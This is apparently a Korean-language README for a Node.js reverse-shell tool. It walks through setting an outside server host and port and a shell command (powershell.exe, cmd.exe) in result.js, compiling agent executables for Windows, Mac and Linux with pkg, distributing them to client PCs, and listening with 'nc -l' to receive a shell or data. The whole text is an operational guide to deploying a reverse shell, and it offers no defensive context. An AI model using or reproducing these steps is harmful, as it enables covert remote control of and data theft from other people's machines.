★x1 필수 설치파일
1) Node.js
    1. (windows) https://nodejs.org/ko/download/
    2. (MacOSX) brew install node
    3. (Linux) yum install node
2) PKG //에이전트 파일 생성
    1. npm install pkg --g

:>-----------------------------------------------------------<:
★x2 코드 수정(result.js)
1) 리버스쉘을 연결할 서버 호스트(HOST_Address, HOST_PORT) 등록
ex) const HOST_Address = "naver.com" or "8.8.8.8"
    const HOST_PORT = ["111"]

2) 리버스쉘 연결할 Command(COMMAND) 등록
ex) const COMMAND  = "powershell.exe", "cmd.exe"
:>-----------------------------------------------------------<:
★x3 에이전트 파일 생성(With PKG)
    1) compile.bat 실행
    2) results 폴더 내 에이전트 파일 확인(windows, mac, linux)
    3) 에이전트 파일 Client PC 배포
:>-----------------------------------------------------------<:
★x4 Server 측 포트 리스닝
    1) nc -l HOST_PORT
    2) 대기
:>-----------------------------------------------------------<:
★x5 Client PC 측 에이전트 파일 실행
    1) (windows) results_win.exe 파일 클릭
    2) Connected 인 경우 연결성공
:>-----------------------------------------------------------<:
★x6 Server 
    1) Client 로부터 전달받은 데이터 또는 Shell 획득
:>-----------------------------------------------------------<:

